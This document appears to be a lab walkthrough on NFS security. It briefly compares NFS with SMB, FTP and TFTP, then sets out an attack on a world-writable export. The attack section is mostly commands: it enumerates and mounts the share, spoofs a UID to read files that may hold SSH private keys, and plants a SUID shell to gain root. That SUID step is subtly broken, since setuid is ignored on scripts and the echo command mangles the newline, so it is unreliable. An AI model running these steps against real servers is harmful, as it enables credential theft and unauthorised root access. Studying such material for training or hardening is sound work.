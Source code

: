 **Key Differences**:
- **NFS vs. SMB**: NFS is Unix-centric, relies on UID/GID or Kerberos, and lacks native authentication in older versions. SMB is Windows-centric, with robust ACLs and Active Directory integration.
- **NFS vs. FTP**: NFS provides seamless file system access, while FTP is designed for file transfers with explicit user authentication.
- **NFS vs. TFTP**: NFS is more complex and feature-rich, while TFTP is lightweight but insecure, suitable for simple transfers.

## Practical Example: Exploiting the `/mnt/nfs` Share
The document’s `/mnt/nfs` share is configured as:
```
/mnt/nfs 10.129.14.0/24(rw,sync,no_subtree_check)
```
**Vulnerabilities**:
- `rw`: Allows file modifications.
- Broad subnet access (`10.129.14.0/24`): Any host in the subnet can mount the share.
- No `root_squash` specified: Potentially allows root-level access (depends on default settings).

### Attack Scenario
1. **Enumerate Shares**:
   ```bash
   showmount -e 10.129.14.128
   ```
   Identifies `/mnt/nfs`.

2. **Mount Share**:
   ```bash
   mkdir target-NFS
   sudo mount -t nfs 10.129.14.128:/mnt/nfs target-NFS/ -o nolock
   ```

3. **Inspect Files**:
   ```bash
   ls -l target-NFS
   ```
   Reveals sensitive files like `id_rsa` and `cry0l1t3.priv`, which could be SSH private keys.

4. **Exploit with UID Spoofing**:
   - Create a local user with UID 1000 (matching `cry0l1t3`):
     ```bash
     sudo useradd -u 1000 attacker
     ```
   - Access files owned by UID 1000:
     ```bash
     su attacker
     cat target-NFS/cry0l1t3.priv
     ```
   - Use the private key for SSH access to the server.

5. **Privilege Escalation (if `no_root_squash`)**:
   - Upload a SUID binary:
     ```bash
     echo '#!/bin/bash\n/bin/bash' > target-NFS/root_shell
     chmod +s target-NFS/root_shell
     ```
   - Execute on the server to gain root access.
